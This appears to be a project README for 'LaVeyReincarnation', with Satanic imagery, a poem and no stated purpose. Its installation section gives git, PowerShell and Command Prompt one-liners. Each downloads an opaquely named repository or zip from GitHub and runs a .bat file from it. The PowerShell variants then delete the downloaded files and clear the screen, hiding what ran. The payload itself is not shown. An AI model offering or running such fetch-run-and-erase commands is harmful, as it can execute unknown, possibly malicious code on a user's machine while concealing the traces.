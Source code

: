 


<h1>LaVeyReincarnation</h1>

<img align="right" width="100" height="100" src="https://upload.wikimedia.org/wikipedia/commons/thumb/0/09/Baphosimb.svg/100px-Baphosimb.svg.png">
<p align="center">
Climbing deep into your Wurlitzer<br>
gathering sins to the nest<br>
lost conscience of the apprizer<br>
boiling hatred in a pest
</p>

<h3>Installation</h3>
<details>
  <summary>git</summary>
  
  * Run:
    ```powershell
    git clone https://github.com/3lv/a -q & .\a\a.bat
    ```
</details>

<details>
  <summary>Powershell</summary>
  
  * Run:
    ```powershell
    $w=$home
    $u="https://github.com/3lv/a/archive/a.zip"
    $z="$w\a.zip"
    $d="$w\a\"
    (New-Object System.Net.WebClient).DownloadFile($u,$z)
    Expand-Archive $z $d -F
    cd $d\..
    .\a\a-a\a.bat
    Remove-Item $z
    $d -R -F
    cls
    ```
</details>

<details>
  <summary>PowerShell 1 line</summary>
  
  * Run:
    ```powershell
    $w=$home;$u="https://github.com/3lv/a/archive/a.zip";$z="$w\a.zip";$d="$w\a\";(New-Object System.Net.WebClient).DownloadFile($u,$z);Expand-Archive $z $d -F;cd $d\..;.\a\a-a\a.bat;Remove-Item $z,$d -R -F;cls
    ```
</details>
<details>
  <summary>Command Prompt</summary>
  
  * Run:
    ```
powershell -c "& {$w=$home;$u='https://github.com/3lv/a/archive/a.zip';$z=\"$w\a.zip\";$d=\"$w\a\\\";(New-Object System.Net.WebClient).DownloadFile($u,$z);Expand-Archive $z $d -F;cd $d\..;.\a\a-a\a.bat;Remove-Item $z,$d -R -F;cls}"
    ```
</details>

<h3>Possible errors</h3>

> If directory "a" already exists, commands may result in a hidden error
> 
> Use the following to remove "a":
>
> <code>rmdir /s /q ".\a\"</code>

